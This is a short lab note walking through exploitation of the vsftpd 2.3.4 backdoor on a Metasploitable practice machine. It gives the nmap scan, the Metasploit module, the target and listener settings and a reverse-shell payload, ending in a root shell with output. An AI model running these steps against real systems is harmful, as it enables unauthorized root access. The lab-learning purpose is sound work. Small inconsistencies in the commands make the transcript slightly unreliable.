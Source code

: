 ```yaml
---
kind: note
title: Metaploitable Port 21/tcp - vsftpd
updated_at: 2013-11-18 22:28
tags:
  - metasploit
  - metasploitable
  - vsftpd
  - security
---
```


# Metaploitable Port 21/tcp - vsftpd

Start with a more complete scan:

```bash

msf > nmap -sV  10.13.37.136 -p 21
[*] exec: nmap -sV  10.13.37.136 -p 21


Starting Nmap 6.40 ( http://nmap.org ) at 2013-11-12 10:34 EST
Nmap scan report for 10.13.37.136
Host is up (0.0018s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix
```

Next, try and search for a relevant exploit:

```bash
msf > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Oh good! It found something so lets configure it to use
`exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) >
```

Set the remote (target) port and address and the local receiver host ip:

```bash
msf exploit(vsftpd_234_backdoor) > set RHOST = 10.13.37.136
RHOST => = 10.13.37.136
msf exploit(vsftpd_234_backdoor) > set RPORT = 21
RPORT => = 21
msf exploit(vsftpd_234_backdoor) > set LHOST 10.13.37.116
LHOST => 10.13.37.116
```

Search for aan appropriate payload. _Note: this is done from bash, not from
inside `msfconsole`.

```bash
$ msfpayload -l | grep unix
    ...
    ...
    cmd/unix/interact
    ...
    ...
```

Set the payload as well.

```bash
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/interact
```

Review settings ...

```bash
msf exploit(vsftpd_234_backdoor) > set

Module: unix/ftp/vsftpd_234_backdoor
====================================

  Name                   Value
  ----                   -----
  ...
  LHOST                  10.13.37.116
  PAYLOAD                cmd/unix/interact
  RHOST                  10.13.37.136
  RPORT                  21
  ...
```

... And exploit!

```bash
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (10.13.37.116:54285 -> 10.13.37.136:6200) at 2013-11-12 11:04:25 -0500

whoami
root
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e0:62:7f
          inet addr:10.13.37.136  Bcast:10.13.37.255  Mask:255.255.255.0
          ...

exit

[*] 10.13.37.136 - Command shell session 2 closed.  Reason: Died from EOFError

```

Hurray!

